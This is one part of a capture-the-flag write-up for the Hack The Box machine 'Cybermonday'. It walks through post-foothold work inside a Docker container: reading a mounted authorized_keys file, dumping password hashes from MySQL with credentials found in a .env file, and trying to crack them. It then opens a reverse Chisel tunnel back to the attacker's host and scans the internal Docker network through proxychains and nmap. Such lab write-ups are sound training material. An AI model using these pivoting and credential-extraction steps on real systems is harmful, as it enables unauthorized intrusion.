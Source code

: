 # Where to Now?

[Initial Enumeration](/writeups/machines/htb-cybermonday/1-initial-enumeration)
[Webhook API Admin Access](/writeups/machines/htb-cybermonday/2-webhook-api-admin)
[Obtaining More Info](/writeups/machines/htb-cybermonday/3-obtaining-more-info)
[Gaining a Foothold](/writeups/machines/htb-cybermonday/4-gaining-a-foothold)
**[Where to Now?](/writeups/machines/htb-cybermonday/5-where-to-now)**
[Reading the Source](/writeups/machines/htb-cybermonday/6-reading-the-source)
[Composing Root Access](/writeups/machines/htb-cybermonday/7-composing-root-access)

As you do all your regular enumeration you'll quickly realise (if you hadn't already) that this is a [[docker|Docker]] container. Sometimes you can break out of Docker containers, but in this case it seems the vulnerabilities are all covered. One interesting directory is `/mnt`. It looks like a home directory from the host system has been mounted here. You can see the user flag is tantalisingly close, but unfortunately we can't read it at the moment. What about `authorized_keys`? Well it already exists and isn't writeable, but it is readable.
```
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQCy9ETY9f4YGlxIufn... john@cybermonday
```

Now we have a username we can try to use for [[ssh|`ssh`]] to the host. Trying some of the basic passwords to login doesn't get us anywhere so lets continue with our Docker box for now. We have a couple of things we can do from here. We can look through the source code of the entire Cybermonday shopping app, and we can use the MySQL credentials from the `.env` file to connect to the database. The container doesn't have `mysql` installed so you'll have to use a [[php|PHP]] script if you want to do that. With this method we can extract the password hashes for the admin user and your own account:
```
1 - admin - admin@cybermonday.htb - $2y$10$6kJuFazZ...
2 - dot - ctf@dotefekts.net - $2y$10$6xMtStxbhJkEf0...
```

We can try and use `hashcat` to determine the admin password but it doesn't look like it's going to work any time soon. Looking through the code doesn't get us any particularly useful information either. So what else can we do? Well, Docker containers means a Docker network, one that we can now scan to find more services that might not have previously been accessible.
We'll need to know what the IP range of our network is, but `ifconfig` and `ip` are both not available on the container, so instead we can use:
```bash
hostname -I

172.18.0.6
```

So now how do we scan this network? Enter [Chisel](https://github.com/jpillora/chisel) a network tunnel that supports reverse proxy. Download Chisel to both your own device and the container. (As HTB machines don't have an internet connection you will need to use `python3 -m http.server` and then `curl` in the container to download Chisel from your device.) Once you have `chisel` ready to go, you can start the server on your device:
```bash
./chisel server -p 8080 --reverse
```

and then connect to it from the container:
```bash
./chisel client <your ip>:8080 R:socks
```

Once the container is connected, Chisel will tell you the port on your device to use to send traffic through the proxy. Now that we have the proxy, we'll need a way to allow `nmap` to utilise it. For this we'll use [Proxychains](https://github.com/haad/proxychains). You may find `proxychains` is already installed if you're using Pwnbox or Parrot, if not you should be able to obtain it via `sudo apt install proxychains`. Once installed, open `/etc/proxychains.conf`. Comment out `strict_chain` and uncomment `dynamic_chain`. You may also want to enable `quiet_mode` if you don't want your console spammed with failed connections. Comment out `proxy_dns`, and finally add the `SOCKS` proxy from `chisel` to the proxy list at the bottom of the file. Now we're ready to go.

Personally I found that running `nmap` on one IP at a time was far quicker than having it scan a range. This was likely because I've misconfigured something or used a wrong flag, but in any case you can scan the network in whatever fashion you please. As `ICMP` packets can't be sent through the `SOCKS` proxy, you'll need to disable host detection for the scan and use the `Connect` method. As such your command should look something like this:
```
proxychains nmap -sT 172.18.0.1 -Pn -oG logs/docker_1_scan -v
```

Once you've finished scanning, you'll see a number of services we're already aware of, such as Redis, MySQL, and the webhook API. One service that we haven't been aware of so far is one on port `5000`. A quick Google tells us this is likely to be a Docker registry service. 

Next: [Reading the Source](/writeups/machines/htb-cybermonday/6-reading-the-source)